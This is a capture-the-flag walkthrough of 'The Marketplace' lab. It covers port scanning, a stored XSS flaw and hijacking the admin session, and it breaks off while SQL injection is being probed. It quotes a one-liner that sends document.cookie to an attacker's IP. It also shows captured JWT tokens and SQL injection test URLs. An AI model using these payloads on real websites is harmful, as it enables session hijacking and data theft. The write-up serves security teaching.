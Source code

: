 # The Marketplace
## Difficulty: Medium

Let's start with nmap scan:
```bash
nmap -sV -sC 10.10.3.15 | tee nmap/start
```

The results:
```bash
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c83cc56265eb7f5d9224e93b11b523b9 (RSA)
|   256 06b799940b091439e17fbfc75f99d39f (ECDSA)
|_  256 0a75bea260c62b8adf4f457161ab60b7 (ED25519)
80/tcp    open  http    nginx 1.19.2
| http-robots.txt: 1 disallowed entry 
|_/admin
|_http-title: The Marketplace
|_http-server-header: nginx/1.19.2
32768/tcp open  http    Node.js (Express middleware)
| http-robots.txt: 1 disallowed entry 
|_/admin
|_http-title: The Marketplace
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
The SSH version is high enough to not be vulnerable, so I'll start with the http service.

In the scan it also found that in the robots.txt directory there is an "/admin" directory.

![image](https://user-images.githubusercontent.com/114166939/232095399-3b9e8fbb-7b3c-458f-8a36-1401c960d4cb.png)

It's forbidden:

![image](https://user-images.githubusercontent.com/114166939/232095591-266d7b01-2bd2-40a0-a63f-16d0f62c2655.png)

I'll sign up with a test account:

username = test,

password = test

![image](https://user-images.githubusercontent.com/114166939/232096934-f68dfe06-c1d5-490a-b58b-ab601e0f38af.png)

Success!

Now let's login to this user:
Success!

![image](https://user-images.githubusercontent.com/114166939/232097504-f3174c72-dcdc-46f5-b534-c4b3c167054a.png)

Also noticed I have cookie now - using the cookie manager firefox extension.

![image](https://user-images.githubusercontent.com/114166939/232098050-972050bf-9921-4b3d-b38a-9164f17e2832.png)

By using CyberChef (from "https://gchq.github.io/CyberChef/") I can understand what type of encode this server use and what is the data stored in the cookie.

![image](https://user-images.githubusercontent.com/114166939/232099019-3d27ee92-fea8-4aaa-9126-7386e1e678bc.png)

```
{
    "userId": 4,
    "username": "test",
    "admin": false,
    "iat": 1681488332
}
```

So the server probably identify the users by "userId" and "username" parameters.

This information will be important in the near future!

Let's move on to the New listing ("http://10.10.171.31/new") page:

![image](https://user-images.githubusercontent.com/114166939/232100022-ae881109-485a-4a4f-8020-d827fb8569c4.png)

I'll try exploit this page with xss payloads,
For beginning I'll try the simplest exploit in the title input:
```html
<script>alert(1)</script>
```
Didn't work:

![image](https://user-images.githubusercontent.com/114166939/232100940-7a66c85d-2dbd-4908-b04c-aad6c5327ceb.png)

Let's try in the description input:

![image](https://user-images.githubusercontent.com/114166939/232101091-70b6a894-ece1-420a-a82d-63718944d837.png)

It works!

![image](https://user-images.githubusercontent.com/114166939/232101158-1cf33e18-0bbb-4ecc-bc20-45d2601fb543.png)

Also when I'm going to the home page and clicking on this listing the alert pops out.
It is a reflected and stored xss!

The 2 options for this listing are: "Contact the listing author" and 
"Report listing to admins" - when I report the listing the following message appear:

![image](https://user-images.githubusercontent.com/114166939/232110868-dbbdf845-0b1e-4333-834b-67b03616991e.png)

Which means that after I reported the listing an admin opened it!
If that's the case I can try steal the admin's cookie.

I'll use a code from this github page "https://github.com/R0B1NL1N/WebHacking101/blob/master/xss-reflected-steal-cookie.md":
(The Silent One-Liner)
```html
<script>var i=new Image;i.src="http://[IP]:[PORT]/?"+document.cookie;</script>
```
It need to be modified as my tun0 IP and port.

Before add the listing, I'll establish python3 server on my attacker machine:
```bash
python3 -m http.server
```
Now I'll add the exploit:

![image](https://user-images.githubusercontent.com/114166939/232113668-933bb211-5ef9-4292-883c-694e716b164e.png)

Report this listing:

![image](https://user-images.githubusercontent.com/114166939/232113844-a5f8b17e-37d0-486d-bd42-e5f3e1ef06e2.png)

Refresh and let's take a look at my python3 server!

```bash
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

10.14.50.11 - - [14/Apr/2023 13:20:31] "GET /?token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjQsInVzZXJuYW1lIjoidGVzdCIsImFkbWluIjpmYWxzZSwiaWF0IjoxNjgxNDg4MzMyfQ.LOu-eEsb_vaK-pZ8xZjVHvaVNuFRjRzyq3yAps2tAnY HTTP/1.1" 200 -

10.10.171.31 - - [14/Apr/2023 13:21:26] "GET /?token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE2ODE0OTI4ODd9.YI1C9_Iu632z1-0xDX1jm0DUeFwiGgqiDR1joEGcKzw HTTP/1.1" 200 -
```

The first one is my current user cookie, the same one as I checked in my cookie manager extension.

The second request I got have different cookie!
Probably the admin's user cookie, I'll check it in CyberChef:

![image](https://user-images.githubusercontent.com/114166939/232114890-be430831-c00a-4d33-a986-4fdc666f62ee.png)

It's michael's cookie.

Now I can change the current user cookie with michael's user cookie - I'll do it with cookie manager:

Copy the token from the request, delete the current cookie, paste michael's cookie and save.

![image](https://user-images.githubusercontent.com/114166939/232116054-9115e1c8-2f66-41e3-af69-4716606596f0.png)


Refresh on the home page:

![image](https://user-images.githubusercontent.com/114166939/232116191-be8c47ea-9607-4b36-a73f-d35913a8fb9e.png)

There is a new option in the website, "Administration panel", it redirect to the "/admin" directory.

Got the first flag:

![image](https://user-images.githubusercontent.com/114166939/232116820-b3ed3d55-4cfd-415c-b758-86d5308e4c77.png)

Now let's click on the system user:

![image](https://user-images.githubusercontent.com/114166939/232117026-e9513b4c-5bad-4362-85f8-a80c7f2c56c1.png)

This page use GET method and maybe vulnerable to sqli in the "user" parameter - "http://10.10.171.31/admin?user=1".

The easiest way to test the url is to add ' and check its response:
```url
http://10.10.171.31/admin?user=1'
```

![image](https://user-images.githubusercontent.com/114166939/232117835-abc95af0-4082-4703-929a-afa263519e99.png)

It's probably vulnerable, also it written that this website use MySQL server!

Let's try find out how much columns are in the tables of this DataBase with SQL injection to the url:
```url
http://10.10.171.31/admin?user=1 order by 1-- -
```

It responded the same, than I'll increase the column numbers until the website will response differently:
